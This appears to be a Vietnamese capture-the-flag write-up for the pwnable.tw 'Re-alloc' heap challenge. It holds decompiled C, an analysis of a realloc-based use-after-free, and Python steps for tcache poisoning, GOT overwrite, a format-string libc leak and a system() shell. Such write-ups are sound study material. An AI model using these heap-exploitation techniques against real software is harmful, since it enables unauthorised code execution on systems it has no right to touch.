




# [pwnable.tw] - Re-alloc


## A. CHALLENGE 

### [1] Binary Mitigations. 

- Bài cho file thực thi và thư viện => pwninit patch thư viện vào file, kiểm tra thông tin cơ bản của file.



> File không stripped, PIE và RELRO đều không được bảo vệ từ đó có thể dễ dàng debug cũng như ghi đè hoặc in ra giá trị của GOT.

## B. OVERVIEW



- Giống các thử thách heap, chương trình cho ta menu chức năng và 3 chức năng cơ bản là cấp phát bộ nhớ, cấp phát lại bộ nhớ và xóa bộ nhớ phân bổ heap.

### [1] Vulnerability Analysis.

- Hàm `main` gọi ba hàm khác theo yêu cầu của người dùng. 

```c
main() {while(1)}   | 1 --> allocate()
                    | 2 --> reallocate()
                    | 3 --> rfree()
```

- Hàm `allocate()` cấp phát bộ nhớ trên heap và lưu trữ trong con trỏ vào mảng toàn cục `heap[]` và chỉ mục của mảng được lấy từ người dùng. Kích thước tối đa của mảng là 2 và việc kiểm tra này được thực hiện trong tất cả các hàm truy cập mảng.

- Lưu ý nữa là libc.2.29 và chỉ được cấp phát <= 0x78 nên khi free các chunk có được chỉ gồm t-cache bins.

```c
int allocate()
{
  _BYTE *v0; // rax
  unsigned __int64 idx; // [rsp+0h] [rbp-20h]
  unsigned __int64 size; // [rsp+8h] [rbp-18h]
  void *ptr; // [rsp+18h] [rbp-8h]

  printf("Index:");
  idx = read_long();
  if ( idx > 1 || heap[idx] )
  {
    LODWORD(v0) = puts("Invalid !");
  }
  else
  {
    printf("Size:");
    size = read_long();
    if ( size <= 0x78 )
    {
      ptr = realloc(0LL, size);
      if ( ptr )
      {
        heap[idx] = ptr;
        printf("Data:");
        v0 = (_BYTE *)(heap[idx] + read_input(heap[idx], (unsigned int)size));
        *v0 = 0;
      }
      else
      {
        LODWORD(v0) = puts("alloc error");
      }
    }
    else
    {
      LODWORD(v0) = puts("Too large!");
    }
  }
  return (int)v0;
}
```

- Hàm `reallocate()` phân bổ lại bộ nhớ heap. Hàm cho nhập chỉ mục mảng và kích thước của chunk mới.

```c
int reallocate()
{
  unsigned __int64 idx; // [rsp+8h] [rbp-18h]
  unsigned __int64 size; // [rsp+10h] [rbp-10h]
  void *ptr; // [rsp+18h] [rbp-8h]

  printf("Index:");
  idx = read_long();
  if ( idx > 1 || !heap[idx] )
    return puts("Invalid !");
  printf("Size:");
  size = read_long();
  if ( size > 0x78 )
    return puts("Too large!");
  ptr = realloc((void *)heap[idx], size);
  if ( !ptr )
    return puts("alloc error");
  heap[idx] = ptr;
  printf("Data:");
  return read_input(heap[idx], (unsigned int)size);
}
```

- Hàm `rfree()` xóa khối đã phân bổ trước đó với yêu cầu nhập chỉ mục và sau đó con trỏ của mục nhập tương ứng trong mảng được đặt thành null.

```c
int rfree()
{
  _QWORD *ptr; // rax
  unsigned __int64 idx; // [rsp+8h] [rbp-8h]

  printf("Index:");
  idx = read_long();
  if ( idx > 1 )
  {
    LODWORD(ptr) = puts("Invalid !");
  }
  else
  {
    realloc((void *)heap[idx], 0LL);
    ptr = heap;
    heap[idx] = 0LL;
  }
  return (int)ptr;
}
```

- Thử thách này đặc biệt ở chỗ là cách nó sử dụng hàm `realloc()` để thực hiện thao tác liên quan đến bộ nhớ heap như phân bổ `malloc()`, phân bổ lại `realloc()` và giải phóng đoạn bộ nhớ heap `free()`. Hàm `realloc()` có thể được tái sử dụng cho hoạt động heap khác nhau:

    * realloc(ptr, NULL) : giống như free(ptr).
    * realloc(ptr, size) : mở rộng/thu nhỏ khối bộ nhớ dựa trên kích thước được yêu cầu. Nếu giá trị kích thước giống với kích thước khối cũ thì không có gì được thực hiện và cùng một khối bộ nhớ được trả về.
    * realloc(NULL, size) : giống như malloc(size).

### [2] Bug Exploit.

- Lỗ hổng nằm trong hàm `reallocate()`, như trình bày trước đó rằng gọi realloc(ptr, 0) (size = 0) thì như gọi *free(ptr). Hàm không kiểm tra kích thước = 0 => chúng tôi có thể chuyển đổi lệnh gọi realloc(ptr, size) thành lệnh gọi free(ptr) và mảng lưu con trỏ tới bộ nhớ không được đặt thành null nên dẫn đến `Use after free`.

- Phiên bản libc là 2.29 có t-cache bins và size giới hạn được cấp phát là 0x78 => Có thể ghi tùy ý sử dụng t-cache bins attack.


## C. EXPLOITATION

### [1] Stage 1: Arbitrary write.

- Thông thường trước tiên cần thực hiện leak libc nhưng trong thử thách này cách để lấy leak libc là thông qua `arbitrary write`.  

- Nhưng libc được cấp là 2.29, t-cache trên libc này có kiểm tra double-free và với số lượng rất ít chunk được phép sử dụng rất khó để thực hiện ghi đè bất cứ đâu bằng cách [bypass kiểm tra của libc](https://learn.dreamhack.io/34#19).

- Hint nằm ở đề bài là sử dụng re-alloc, VD chúng ta chỉ cần thay vì sử dụng Double-Free để đẩy vị trí ta muốn ghi vào bins list, chúng ta alloc một khối, sau đó sử dụng re-alloc để free khối đó, và cũng dùng chính realloc để sửa fd của t-cache với ptr không = null sau khi realloc(ptr, 0).

- __Kết luận:__ Sau khi phân bổ một khối với size như đã cấp phát trên, vị trí ta ghi ở fd sẽ đẩy lên chờ sẵn tại `t-cache bins` kích thước đó.

```python
####### [the first 0x20 tcache bins with TARGET]
Allocate(1, 16, b"1" * 15)
# Double Free
Reallocate(1, 0)  # free(1) but not set heapArr[1] = 0
Reallocate(1, 16, TARGET)
Allocate(0, 16, b"0" * 15)

# heap0 same is pointer heap1 and set 2nd ptr = null
Reallocate(1, 32, b"1" * 31)
rFree(1)  # set heap[1] = null

Reallocate(0, 32, b"0" * 31)
rFree(0)  # set heap[0] = null

####### the second 0x30 tcache bins with TARGET
Allocate(0, 32, b"0" * 31)
# Double Free
Reallocate(0, 0)  # free(0) but not set heapArr[0] = 0
Reallocate(0, 32, TARGET)
Allocate(1, 32, b"0" * 31)

# heap0 same is pointer heap1 and set 2nd ptr = null
Reallocate(0, 64, b"0" * 63)
rFree(0)  # set heap[0] = null

Reallocate(1, 64, b"1" * 63)
rFree(1)  # set heap[1] = null
######### [Now we have 2 type t-cache size 0x20, 0x30 same pointer TARGET]
```

- Ta sẽ setup hai `t-cache bins` list với hai size khác nhau có thùng chờ sẵn là TARGET của chúng ta.



### [2] Stage 2: Leak.

- Ta ghi đè GOT của hàm `atoll()` thành PLT của `printf()` để khi gọi hàm `read_long()` để đọc giá trị thì hàm `printf()` sẽ được gọi.

- Có thể sử dụng `read_long()` như một hàm `printf()` và truyền vào đối số dẫn đến `Format string` => leak LIBC.

### [3] Stage 3: GetShell.

- Ở phần `Arbitrary write` ta chuẩn bị hai size cùng có bins chờ là __TARGET:__ `atoll()`, sử dụng 1 cái cho leak, cái còn lại sử dụng để ghi đè lại `GOT atoll()` => system().

- Nhưng có điều cần lưu ý là hiện tại khi atoll() được gọi thì hàm thực sự được gọi là `printf()` mà giá trị trả về của `printf()` là độ dài của chuỗi đựơc truyền cho chứ không phải là giá trị chuỗi thành số như `atoll()`.

```c
Index: b"\n" = 1
Size: (size) = b"1"*10 = 10
```

## D. FLAG

- Tiến hành viết file [exp.py](./exp.py) và khai thác:


